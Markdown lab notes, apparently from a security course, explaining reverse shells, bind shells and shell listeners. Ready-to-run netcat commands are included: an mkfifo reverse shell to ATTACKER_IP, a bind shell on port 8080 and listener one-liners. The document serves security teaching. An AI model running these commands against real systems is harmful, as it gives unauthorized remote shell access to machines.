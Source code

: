 
## 🔁 Task 3 - Reverse Shells

A **reverse shell** initiates a connection from **target → attacker**, bypassing inbound firewall restrictions.

### 🧰 Set up Listener (Attacker)
```bash
nc -lvnp 443
```

### 💣 Reverse Shell Payload:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

### 🔍 Breakdown:
- `mkfifo`: Named pipe for bi-directional communication
- `nc`: Connects back to attacker
- `sh -i`: Interactive shell
- `2>&1`: Redirects stderr to stdout

---

## 🔗 Task 4 - Bind Shells

A **bind shell** opens a listening port on the **victim machine**, and the attacker connects to it.

### 🧰 On the Target (Victim)
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

### 🧰 On the Attacker
```bash
nc -nv TARGET_IP 8080
```

> Bind shells require the victim to be reachable, and are less stealthy.

---

## 🎧 Task 5 - Shell Listeners

### 🧰 Netcat (Basic)
```bash
nc -lvnp 443
```

### 🧰 rlwrap + nc (With history, arrow keys)
```bash
rlwrap nc -lvnp 443
```
